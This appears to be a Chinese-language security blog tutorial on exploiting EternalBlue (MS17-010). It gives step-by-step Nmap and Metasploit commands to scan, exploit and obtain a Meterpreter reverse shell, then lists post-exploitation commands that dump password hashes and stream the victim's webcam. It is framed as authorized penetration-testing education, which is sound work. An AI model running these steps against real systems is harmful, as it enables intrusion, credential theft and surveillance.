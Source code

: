 #  渗透测试实战：永恒之蓝漏洞识别、扫描与Metasploit利用全流程   
原创 VlangCN  HW安全之路   2025-05-05 03:02  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/Bvow4Cv9oZ3eTrDwp7Jvu3HrLl577luB3N20eQv69BlgDY1wRI95fZaWicCXUSy9h0KWGPnkUgN7Jz0sGiaHOF2g/640?wx_fmt=gif&from=appmsg "")  
  
  
如果你近几年关注过网络安全新闻，你很可能听说过永恒之蓝（EternalBlue）。  
  
这个Windows系统的严重漏洞在全球范围内肆虐的WannaCry勒索软件攻击中扮演了关键角色，影响了超过150个国家的系统。  
  
在本文中，我们将深入了解永恒之蓝的工作原理，如何扫描检测它，以及如何使用Metasploit框架进行漏洞利用。  
  
**特别提醒**  
：本文内容严格限于道德黑客行为和渗透测试目的，且只能用于你拥有或已获得明确许可测试的系统上。切勿在未经授权的机器上使用这些工具。  
## 永恒之蓝是什么？  
  
永恒之蓝（漏洞编号MS17-010）是微软服务器消息块（SMB）协议中的一个漏洞，特别是在445端口上。SMB协议帮助网络上的设备（如打印机和文件服务器）相互通信。  
  
这个漏洞最初由美国国家安全局（NSA）发现并开发了相应的攻击工具。后来，这些工具被泄露并被黑客改造成WannaCry勒索软件，造成了全球范围的混乱。  
## 准备工作  
- 一个易受永恒之蓝攻击的Windows系统（例如，未打补丁的Windows 7系统）  
  
- 一个安装了Metasploit的攻击系统（通常是Kali Linux）  
  
- 熟悉基本的渗透测试命令（Nmap、Metasploit等）  
  
## 识别目标并检查开放端口  
  
首先，获取目标机器的IP地址。在我们的示例中，IP为10.10.232.162。你需要确认SMB服务（445端口）是否开放，因为永恒之蓝正是攻击SMB服务的。  
```
nmap -p 445 10.10.232.162

```  
  
如果该端口开放，Nmap将报告445端口处于开放状态。这是你的第一个绿灯信号。  
## 启动Metasploit  
  
打开终端并启动Metasploit框架：  
```
msfconsole

```  
  
Metasploit将加载并显示可用的漏洞利用模块、辅助模块和载荷的数量。  
## 扫描永恒之蓝（MS17-010）漏洞  
  
接下来，使用Metasploit内置的永恒之蓝扫描器：  
```
search scanner eternalblue

```  
  
使用smb_ms17_010扫描器来检查永恒之蓝漏洞：  
```
use auxiliary/scanner/smb/smb_ms17_010
show options

```  
  
设置目标IP地址（RHOSTS）为你的Windows机器：  
```
set RHOSTS 10.10.217.189

```  
  
然后，运行扫描器：  
```
run

```  
  
如果扫描器报告主机"很可能易受攻击"并显示诸如"Windows 7 Professional"之类的详细信息，那么你已经确认了永恒之蓝漏洞的存在。  
## 利用漏洞  
  
一旦确认目标系统易受攻击，搜索实际的永恒之蓝漏洞利用模块：  
```
search exploit eternalblue

```  
  
你应该会看到一系列可能的漏洞利用模块。我们感兴趣的通常标记为：  
```
exploit/windows/smb/ms17_010_eternalblue

```  
  
使用该漏洞利用模块：  
```
use exploit/windows/smb/ms17_010_eternalblue
show options

```  
  
再次设置目标IP地址：  
```
set RHOSTS 10.10.217.189

```  
  
检查载荷设置：Metasploit通常默认为Meterpreter载荷（例如，windows/x64/meterpreter/reverse_tcp），这是理想的选择。确认你的本地IP（LHOST）是正确的，这样连接才能回到你的机器。  
  
最后，执行漏洞利用：  
```
run

```  
## Meterpreter Shell和后渗透阶段  
  
如果成功，你将获得一个Meterpreter shell。Meterpreter是一个功能强大的载荷，允许你：  
- 从安全账户管理器（SAM）中导出密码哈希值  
  
- 提升权限获取SYSTEM级别访问权限  
  
- 捕获摄像头流、录制麦克风等（在道德准则下用于演示和测试）  
  
以下是一些Meterpreter命令的快速浏览：  
```
sysinfo         # 显示目标系统信息
getuid          # 显示你当前运行的用户上下文
hashdump        # 导出SAM密码哈希（需要权限提升）
webcam_stream   # 如果可用，从目标的摄像头流式传输

```  
  
永恒之蓝漏洞是一个典型的例子，展示了单个未修补的漏洞如何使系统暴露于接管风险中。  
  
理解其机制有助于防御团队修补系统、监控网络流量中可疑的SMB通信，并创建强大的响应策略。  
## 结论  
  
永恒之蓝仍然是最著名的Windows漏洞之一，它生动地说明了补丁管理和网络安全卫生的重要性。从使用Nmap扫描到使用Metasploit进行漏洞利用，整个过程遵循了典型的渗透测试工作流：扫描漏洞、识别弱点、进行利用和权限提升。  
  
如果这篇文章帮助你理解了永恒之蓝的内部工作原理，欢迎分享并探索更多道德黑客资源。  
## 深度思考  
  
永恒之蓝漏洞的影响远超技术层面，它引发了关于网络武器开发、0day漏洞披露责任以及全球互联系统脆弱性的深刻讨论。作为技术人员，了解这些工具的强大威力，同时保持高度的道德意识，对构建更安全的数字世界至关重要。  
  
记住，真正的安全专家不是通过破坏系统，而是通过构建和加固系统来证明自己的价值。永恒之蓝提醒我们，即使是最小的安全漏洞也可能导致灾难性的后果，强调了及时更新和全面防御策略的重要性。  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/Bvow4Cv9oZ0BfboLjHF8RcNM8wdoZl2hbZBZVwoRZaNYrgwKDmnUsdnHhEkK6c2iaxGpD0D7llpeM09WEQHyAqA/640?wx_fmt=gif&from=appmsg "")  
  
****  
**关注我们的公众号，并给本文点赞，点个推荐支持一下吧！您的每一个小红心，都是我坚持创作优质内容的最大动力**  
  
  
